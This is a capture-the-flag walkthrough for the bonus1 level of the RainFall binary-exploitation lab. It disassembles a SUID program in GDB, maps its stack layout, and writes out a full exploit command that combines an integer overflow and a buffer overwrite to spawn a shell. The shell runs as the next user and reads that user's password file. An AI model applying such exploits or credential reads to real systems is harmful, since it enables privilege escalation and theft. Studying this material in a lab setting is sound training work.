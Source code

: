Login as `bonus1`.
```shell
┌──$ [~/42/2022/rainfall]
└─>  ssh 192.168.0.19 -p 4242 -l bonus1
bonus1@192.168.0.19's password: cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
```
A `SUID` executable is located in the home directory.
```shell
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```
Program segfault at run.
```shell
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
```
By examining the binary in GDB, it has conditional call to `execl("/bin/sh", "sh", 0)`.
```gdb
(gdb) disass main
Dump of assembler code for function main:
   [...]
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   [...]
End of assembler dump.
```
In order to get there, the memory address `0xbffff32c` must be equal to `0x574f4c46` (WOLF).
Above this check, there is call to `atoi()` and check of result less or equal to 9.  Otherwise it return 1 and terminate.
```gdb
(gdb) disass main
Dump of assembler code for function main:
   [...]
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    eax,0x1
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   [...]
End of assembler dump.
```

At start of `main()` 64 bytes are reserved on stack to hold variables.
```gdb
(gdb) x/i main+6
   0x804842a <main+6>:	sub    esp,0x40
gdb-peda$ x/32wx $esp
            # ESP
0xbffff6b0:	0xbffff8d2	0x08049764	0x00000003	0x080482fd
                        # DST[40]
0xbffff6c0:	0xb7fd13e4	0x00000014	0x08049764	0x080484d1
0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
                                                # INTEGER
0xbffff6e0:	0xb7fed280	0x00000000	0x080484b9	0x80000030
0xbffff6f0:	0x080484b0	0x00000000	0x00000000	0xb7e454d3
0xbffff700:	0x00000003	0xbffff794	0xbffff7a4	0xb7fdc858
0xbffff710:	0x00000000	0xbffff71c	0xbffff7a4	0x00000000
0xbffff720:	0x0804821c	0xb7fd0ff4	0x00000000	0x00000000
```
Considering that `atoi()` returns an integer 4 bytes, 40 bytes are reserved for `dst` array.
```
ESP     = 0xbffff6b0
integer = 0xbffff6ec $esp+0x3c
dst[40] = 0xbffff6c4 $esp+0x14
```
In order to overwrite integer value, `av[2]` must have 40 bytes followed by value `0x574f4c46`.

Exploit and log on to the next level.
```shell
bonus1@RainFall:~$ /home/user/bonus1/bonus1 -2147483600 $(python -c "import struct; print('Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A' + struct.pack('I', 0x574f4c46))")
$ id
uid=2011(bonus1) gid=2011(bonus1) euid=2012(bonus2) egid=100(users) groups=2012(bonus2),100(users),2011(bonus1)
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
